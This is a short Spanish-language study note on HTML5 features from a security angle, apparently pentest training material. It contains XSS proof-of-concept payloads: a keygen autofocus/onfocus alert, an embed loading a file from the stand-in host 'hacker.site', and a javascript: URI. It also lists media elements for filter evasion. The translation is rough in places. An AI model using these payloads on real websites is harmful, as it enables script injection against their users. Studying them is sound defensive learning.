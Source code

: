 # HTLM5

## Intro

No necesitamos analizar todo el HTML5 RFC y sus características relacionadas; Sin embargo, lo que vamos a explorar en esta sección Recap es las principales características que son interesantes desde una perspectiva de seguridad.

### Semántica

Enriquecimiento de la semántica que los devs web pueden dar a sus aplicaciones. Estos incluyen nuevos elementos de medios, tipos de formas, atributos y muchos otros. Desde el punto de vista de la seguridad, estos se convierten en nuevos vectores de ataque y formas de eludir las medidas de seguridad.

### Form Elements

El elemento keygen es uno de los nuevos Elementos de la Forma. Se introdujo para generar un lado de cliente de la pieza clave. El atributo más interesante que soporta es autofoco. Esto es útil en _descupación de XSS sin interacción del usuario_.

Example:

```js
<form action="#" method "GET">
  Encryption: <keygen name="security" autofocus onfocus="alert(1);">
  <input type="submit">
</form>
```

### Media Elements

```js
# Both <video> and <audio> are commonly ysed to evade XSS filters. In addition, <source>, <track> and <embed> are also useful due to the fact that they support the 'src' attribute

# Example:

<embed src="http://hacker.site/evil.swf">
<embed src="javascript:alert(1)">
```

### Semantic / Structural Elements

Hay muchos otros elementos introducidos para mejorar el semántico y la estructura de una página, tales como:

```js
<article>
<figure>
<footer>
<header>
<main>
<mark>
<nav>
<progress>
<section>
<summary>
<time>
```

